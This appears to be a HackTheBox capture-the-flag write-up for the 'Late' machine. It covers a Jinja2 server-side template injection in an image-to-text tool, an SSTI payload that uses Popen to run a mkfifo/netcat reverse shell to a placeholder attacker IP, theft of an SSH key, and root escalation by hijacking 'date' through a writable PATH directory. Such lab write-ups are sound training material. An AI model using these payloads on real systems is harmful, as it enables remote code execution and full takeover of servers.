

+++
title = 'Late'
date = 2022-04-23T14:27:49+02:00
draft = false
tags = ['htb', 'writeup']
summary = '[Late](https://app.hackthebox.com/machines/Late) is an easy CTF machine. Features an SSTI in an image converter & unsecure $PATH.'
description = '"Late" is an easy CTF machine. Released on 23rd of April, 2022 (HTB).'
thumbnail = 'img/lt-logo.png'
+++

Initial Access
==============

Enumeration
-----------

### Ports

After connecting to the HackTheBox VPN we can start our enumeration. First things first we can do a port scan on the machine to see what is running:

```bash
sudo rustscan --ulimit 5000 -a 10.10.11.156 -- -sC -sV
```

After scanning the machine we find that there are two ports open. One of which is port `22`, running `OpenSSH 7.6p1` and the other is port `80` running on `nginx 1.14.0`. Scan also reveals to us that the target OS is Ubuntu. Scan results:

```text
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 02:5e:29:0e:a3:af:4e:72:9d:a4:fe:0d:cb:5d:83:07 (RSA)
| ssh-rsa ...
|   256 41:e1:fe:03:a5:c7:97:c4:d5:16:77:f3:41:0c:e9:fb (ECDSA)
| ecdsa-sha2-nistp256 ...
|   256 28:39:46:98:17:1e:46:1a:1e:a1:ab:3b:9a:57:70:48 (ED25519)
|_ssh-ed25519 ...
80/tcp open  http    syn-ack ttl 63 nginx 1.14.0 (Ubuntu)
|_http-favicon: Unknown favicon MD5: 1575FDF0E164C3DB0739CF05D9315BDF
|_http-title: Late - Best online image tools
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-server-header: nginx/1.14.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Webapp

Upon opening the web app we see that this page is a portfolio for image editing tools. We could start fuzzing for other directories or subdomains, but let's first explore the website.


If we scroll down we will find a link that redirects us to a different subdomain `images.late.htb`. We can now add both `images.late.htb` and `late.htb` to our `/etc/hosts` file using our favorite text editor:


Now we can visit the newly discovered subdomain. The title of it is `Image Reader`. This tool claims to convert images to text. To do that it allows us to upload an image file.



Let's try out the functionality. For image creation, I will be using [Photopea](https://www.photopea.com/) which is a free Photoshop-like image editor that can be run in your browser. I created an HD image and added text that said "Test 123". Then I exported the image as JPEG and uploaded it to the site.


The functionality so far works as intended. The output was a text file that wrapped the text it gathered from the image in paragraph tags. Can we somehow exploit this?

Exploitation
------------

### Identification

There are a few things that hit this function as being vulnerable. The first thing is that it is apparently created with a Python flask. Flask uses a templating engine called Jinja2. If the output to the file is inserted as a template and not filtered then we can try to perform SSTI (Server-side template injection) and gain a shell. We can test this theory by trying to submit an image that has `{{7*7}}` as its payload. Note that the best font that worked for me was "Azeret Mono".


### SSTI Exploitation

Now we know that the target is vulnerable. For the exploit, I first need to find the Popen function within python. To do this I can use the following line as text in the image:

```python
{{ ''.__class__.__mro__[1].__subclasses__() }}
```

This will return all of the subclasses. From the output, we can try to locate the Popen subclass. This can be done by trial and error, or by using sublime-text to find the index. In my case, the index of Popen is `249`. Please note that it might recognize any `5` as an `S` which you can bypass by using `4+1`. In my case that is not needed:

```python
{{ ''.__class__.__mro__[1].__subclasses__()[249] }}
```

After submitting this image, in the output, we will see the Popen subclass which we can then later use to execute code on the target.


Now we can try to execute code. For that, I'll use a reverse shell from [revshells](https://www.revshells.com/). The payload that I will use in the image is the following one:
```python
{{ ''.__class__.__mro__[1].__subclasses__()[249]("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc <IP> <PORT> >/tmp/f", shell=True, stdout=-1).communicate() }}
```

For the exploit image to work I used the `Azeret Mono` font and the image size that I opted for was `4000x200`. The font size for the payload was 36px which might look small on a 4k pixel strip, but in fact, that is quite big. Lastly, we can set up our Netcat listener and upload the payload:


### Persistence

Now that we have access to the machine we can set up some persistence. The first thing we see is that we are not `www-data` but a service account that has a home directory. We know that the machine has SSH open, which means we can log in via SSH using a key pair. If we explore our home directory more we find that an SSH key has already been generated which means we can use it to login on a stable SSH connection:


If getting the reverse shell was unsuccessful then you can try to cat out the `id_rsa` located at `/home/svc_acc/.ssh/id_rsa`. We can also grab the flag at `/home/svc_acc/user.txt`.

Privilege Escalation
====================

Enumeration
-----------

### Exploration

If we run any automatic scripts like PEAS then it will straight away tell us what is exploitable. If we look at the path we notice that we have two writable directories. One of which has a script in them:


If we look at the file we can see that it is a bash script. It looks to be triggered every time someone logins or exits SSH. The `ssh-alert.sh` script:

```bash
#!/bin/bash

RECIPIENT="<a href="/cdn-cgi/l/email-protection" class="__cf_email__" data-cfemail="0f7d60607b4f636e7b6a21677b6d">[email&#160;protected]</a>"
SUBJECT="Email from Server Login: SSH Alert"

BODY="
A SSH login was detected.

        User:        $PAM_USER
        User IP Host: $PAM_RHOST
        Service:     $PAM_SERVICE
        TTY:         $PAM_TTY
        Date:        `date`
        Server:      `uname -a`
"

if [ ${PAM_TYPE} = "open_session" ]; then
        echo "Subject:${SUBJECT} ${BODY}" | /usr/sbin/sendmail ${RECIPIENT}
fi
```

Exploitation
------------

### Overview

Since we can write to the PATH, then we can try to hijack one of the binaries that are being run in the script. `sendmail` binary we cant hijack since it has a full path specified, but we can go for `date` or `uname` which are run in the BODY of the email before it is sent. Assuming that the script is run by a higher privilege user then we can escalate our privileges. First, we can create a script in the same directory with the name `date` and a reverse shell in it:


Now, all we have to do is set up a Netcat listener and exit the current SSH shell. This in turn will give us a root shell where we can grab our flag at `/root/root.txt`:


